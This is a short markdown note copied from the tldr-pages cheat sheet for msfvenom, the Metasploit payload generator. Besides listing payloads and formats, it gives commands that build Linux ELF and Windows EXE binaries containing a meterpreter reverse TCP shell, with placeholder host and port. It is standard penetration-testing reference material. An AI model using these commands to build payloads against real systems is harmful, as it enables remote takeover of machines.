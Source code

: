 ```yaml
---
id: common.msfvenom
title: Msfvenom
desc: ''
updated: 1623965306197
created: 1623965306197
isDir: false
gitNotePath: 'pages/{{ noteHiearchy }}.md'
sources:
  - name: tldr-pages
    url: 'https://github.com/tldr-pages/tldr/blob/master/LICENSE.md'
    license: Creative Commons
---
```

# msfvenom

> Manually generate payloads for metasploit.
> More information: <https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom>.

- List payloads:

`msfvenom -l payloads`

- List formats:

`msfvenom -l formats`

- Show payload options:

`msfvenom -p {{payload}} --list-options`

- Create an ELF binary with a reverse TCP handler:

`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} -f elf > {{path/to/binary}}`

- Create an EXE binary with a reverse TCP handler:

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} -f exe > {{path/to/binary.exe}}`

